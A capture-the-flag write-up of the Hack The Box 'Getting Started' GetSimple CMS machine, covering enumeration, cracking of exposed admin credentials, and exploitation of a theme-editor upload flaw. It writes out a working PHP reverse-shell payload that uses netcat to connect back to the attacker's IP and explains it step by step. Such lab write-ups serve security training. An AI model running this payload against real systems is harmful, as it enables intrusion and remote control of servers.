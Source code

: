 ## **Hack The Box - Getting Started**

**Creator:** 

**Difficulty:** Easy

**Link:** 

---


<ins> **Introduction** </ins>

*Getting Started* is an Easy Level system and is meant to be the first *blackbox* machine someone following the *Penetration Tester* Learning path would encounter. As such I was not able to obtain creator information, a direct link to the machine, or it's info card. Although I can register a guess who the creator was based on a username found on the system.
In this challenge I gain a foothold by exploiting [CVE-2019-11321](https://nvd.nist.gov/vuln/detail/CVE-2019-11231). From there I'm able to obtain root access using the *www-data* users sudo privileges over the *php* command that can be found on [GTFO Bins](https://gtfobins.github.io/gtfobins/php/#sudo).

---

<ins> **Enumeration** </ins>

I Normally start each machine with an *nmap* scan and this one was no exception. 

![nmap output](/docs/assets/images/HTB/gettingstarted/gettingstarted1.png)

Port 22/tcp open to ssh using OpenSSH 8.2p1
 
Port 80/tcp open to http using Apache httpd 2.4.41

Neither one yielded any results initially with *searchsploit*. Navigating over to the webpages showed me what looked like an outline for a blog or something running *GetSimple* Content Managment System. This page contains a few links to documentation for *GetSimple* and some support forums. There are also some headers containing some content in a language I can't read, a list of features, and finally a link to *gettinstarted*. 

![searchsploit](/docs/assets/images/HTB/gettingstarted/gettingstarted2.png)

![webpage](/docs/assets/images/HTB/gettingstarted/gettingstarted3.png)

Navigating over to *gettingstarted* brings me to a server not found page. I noticed the ip_address in the url bar change itself into a hostname, which tells me I'll have to edit them into my */etc/hosts* file. Once I do that I'm able to load a webpage very similar to the one I was on before.

![404](/docs/assets/images/HTB/gettingstarted/gettingstarted4.png)

![etc hosts](/docs/assets/images/HTB/gettingstarted/gettingstarted5.png)

![webpage loaded](/docs/assets/images/HTB/gettingstarted/gettingstarted6.png)

I wasn't able to find a whole lot on the web page as it is. The next step for me was to run *gobuster* against the webserver. I started with a simple word list and got several hits. Three with a status code of 200, */index.php, /robots.txt, /sitemap.xml*, and five with a status code of 301 */theme, /plugs, /data, /backups, /admin*. 

`gobuster dir –u <target_ip> -w /usr/share/dirb/wordlists/common.txt`

![gobuster](/docs/assets/images/HTB/gettingstarted/gettingstarted7.png)

I spent some time navigating through these directories and seeing what information I could find from them. The */admin* directory redirected to a login page with a nonspecific error message, and inside of the */data* directory I was able to find an *api key* and what was likely the specific version of *GetSimple*, being *GetSimple 3.3.15*.

![admin login](/docs/assets/images/HTB/gettingstarted/gettingstarted10.png)

![nonspecific error](/docs/assets/images/HTB/gettingstarted/gettingstarted11.png)

![api key](/docs/assets/images/HTB/gettingstarted/gettingstarted8.png)

![GetSimple Version](/docs/assets/images/HTB/gettingstarted/gettingstarted9.png)

*Searchsploit* again failed to yield any results for this specific version. At this point I kind of hit a wall so I spent some time on google searching for the service versions I found already which is where I found [CVE-2019-11321](https://nvd.nist.gov/vuln/detail/CVE-2019-11231). 

![searchsploit getsimple](/docs/assets/images/HTB/gettingstarted/gettingstarted12.png)

![CVE-2019-11231](/docs/assets/images/HTB/gettingstarted/gettingstarted13.png)

Immediately what stood out to me was this line about password exposure:

> However, what is overlooked is that the Apache HTTP Server by default no longer enables the AllowOverride directive, leading to data/users/admin.xml password exposure.

Sure enough navigating over to the *data/users/admin.xml* directory leads to some exposed login credentials *admin:d033e22ae348aeb5660fc2140aec35850c4da997*. The password is hashed but I was able to easily put that into a file and use *john* to crack it.

```
echo "d033e22ae348aeb5660fc2140aec35850c4da997" > passhash.txt
sudo john passhash.txt
```
![password hash](/docs/assets/images/HTB/gettingstarted/gettingstarted14.png)

![john](/docs/assets/images/HTB/gettingstarted/gettingstarted15.png)

The password is *admin*. Navigating back over to the */admin* directory I enter the credentials *admin:admin* and gain access to the CMS admin page.

![CMS admin page](/docs/assets/images/HTB/gettingstarted/gettingstarted16.png)

---


<ins> **Exploitation** </ins>

According to the CVE I found the *theme-edit.php* file has poor input sanitization and allows for the upload of arbitrary content like php code. So I'm just going to replace everything currently in the editor with a php reverse shell.  

`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.152 3232 >/tmp/f"); ?>`

Breaking that payload down a little bit:

`<?php?>` is the *php* tag, `system` is a built-in *php* function that is used to execute system commands. `rm /tmp/f` Removes the named pip */tmp/f* if it already exists, `mkfifo /tmp/f` creates a *FIFO (first in first out)* file which is also known as a named pipe. The file is named *f* and placed in the */tmp* directory, it is a special file type that is used for inter-process communication, it acts as a pipeline that allows one process to write to the pipe and another process to read from it. These named pipes do not store any data, they only server to pass data between processes. `cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.152 3232 >/tmp/f` pipes the output of */tmp/f* to netcat, which sends it to my ip address on the port I will set up the listener on. The `/bin/sh -i` part starts an interactive shell with input/output connected to the named pipe, `2>&1` redirects standard error to standard output, this means that error messages will also be sent to the remote host. Finally, `>/tmp/f` redirects the output of the *netcat* command back to the named pipe, so the reverse shell can read it.

![Theme Editor](/docs/assets/images/HTB/gettingstarted/gettingstarted17.png)

![php rev shell](/docs/assets/images/HTB/gettingstarted/gettingstarted18.png)

After that I will set up a listener in a new terminal then navigate over to the file path, *http://gettingstarted.htb/theme/innovation/* as specified on the *Content Theme* page, and click the file now containing the payload to execute it.

![listener](/docs/assets/images/HTB/gettingstarted/gettingstarted19.png)

![filepath](/docs/assets/images/HTB/gettingstarted/gettingstarted20.png)

![execute shell](/docs/assets/images/HTB/gettingstarted/gettingstarted21.png)






